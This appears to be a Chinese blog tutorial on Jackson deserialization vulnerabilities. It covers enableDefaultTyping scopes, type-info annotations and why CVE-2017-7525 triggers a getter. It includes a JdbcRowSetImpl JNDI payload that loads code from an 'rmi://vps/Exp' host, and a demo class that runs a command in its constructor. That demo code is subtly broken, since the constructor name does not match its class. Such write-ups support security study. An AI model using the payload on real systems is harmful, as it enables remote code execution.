


# Jackson的利用触发及小细节

不会很详细，简单分析一些重要的
## 触发前提
满足下面三个条件之一即存在Jackson反序列化漏洞：

调用了ObjectMapper.enableDefaultTyping()函数；
对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.CLASS的@JsonTypeInfo注解；
对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.MINIMAL_CLASS的@JsonTypeInfo注解；


## 漏洞原理

其实跟fastjson反序列化漏洞原因类似，漏洞触发方法主要分为两种：

1、目标类的构造函数、set系列函数含有恶意操作，并且参数可控制；

2、目标类的子类、活着目标类的属性的子类的构造函数、set系列函数含有恶意操作，并且参数可控制，如目标类有个属性类型为Object，那么服务端中任意其他类都能为我所用。

### enableDefaultTyping

enableDefaultTyping可以设置如下参数，适用范围从上至下逐渐变大。

| enableDefaultTyping类型 | 说明                                                |
| ----------------------- | --------------------------------------------------- |
| JAVA_LANG_OBJECT        | 属性的类型为Object                                  |
| OBJECT_AND_NON_CONCRETE | 属性的类型为Object、Interface、AbstractClass        |
| NON_CONCRETE_AND_ARRAYS | 属性的类型为Object、Interface、AbstractClass、Array |
| NON_FINAL               | 所有除了声明为final之外的属性                       |

​		

### 第一种

需要开启DefaultTyping，其余大致利用思路和fastjson差不多

```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
```

列举一个利用payload大概格式如此

```java
String json = "[\"com.sun.rowset.JdbcRowSetImpl\", {\"dataSourceName\":\"rmi://vps/Exp\", \"autoCommit\":true}]";
```


### 第二种

简单举个例子来理解下，新增一个Test类


```java

import java.io.IOException;

public class Test {
    public String testt = "test";
    public Monitor() throws IOException {
        Runtime.getRuntime().exec("opened -na Calculator");
    }
}

```

简单写个Student类，注意下面有个被Object修饰的

```java
public class Student {
    public String name;
    public String sex;
    public Object myObject;

    public Student(){
        System.out.println("构造函数");
    }
    public String getName(){
        System.out.println("getName");
        return name;
    }
    public void setName(String name){
        System.out.println("setName");
        this.name = name;
    }
    public String getSex(){
        System.out.println("getSex");
        return sex;
    }
    public void setSex(String sex){
        System.out.println("setSex");
        this.sex = sex;
    }

    public Object getMyObject() {
        System.out.println("getMyObject");
        return myObject;
    }
    public void setMyObject(Object myObject) {
        System.out.println("setMyObject");
        this.myObject = myObject;
    }
    @Override
    public String toString() {
        return String.format("Person.name=%s, Person.sex=%s", name, sex);
    }
}
```

利用

```java
ObjectMapper mapper = new ObjectMapper();
      mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.JAVA_LANG_OBJECT); 
        Student s2 = mapper.readValue("{\"name\":\"5wimming\",\"sex\":\"boy\",\"myObject\":[\"jacksonn.Test\",{\"testt\":\"test\"}]}", Student.class);
```

如果没有开`JAVA_LANG_OBJECT`，Test类在做反序列化的时候，只是做了赋值，并没有进行实例化，因此没有调用Test的构造函数；开启了`JAVA_LANG_OBJECT`后，反序列化Student时候也会发序列化Test，所以调用了Monitor的构造函数，简单测试了下除了设置`NON_FINAL`以外都可以


## 如何在反序列化的时候触发get方法

其实也就是CVE-2017-7525（基于TemplatesImpl利用链）为什么会触发`getOutputproperties`，这点网上基本上没说，这里简单放个图就懂了


在`com.fasterxml.jackson.databind.deser.BeanDeserializer#vanillaDeserialize`中，会根据属性名从this._beanProperties寻找对应的调用方法



这里长话短说，在`com.fasterxml.jackson.databind.deser.BeanDeserializerFactory#addBeanProps`当中，可以很清楚的看出大概逻辑

1. 首先看看有无set方法
2. 如果没有set方法则看看有无这个字段，后面通过反射复制
3. 如果没有set方法以及字段，则会去寻找get方法（前提返回值是Collection、Map及其子类）



这里很清楚就能知道为何能触发`getOutputproperties`，没有`setOutputproperties`,也没有`outputproperties`这个字段，并且`getOutputproperties`返回是`Properties(继承Map类)`


## 参考文章

其他部分可以看看参考文章即可，当然参考文章当中没有提及为什么能过触发get方法，这里帮忙填个坑了

http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB
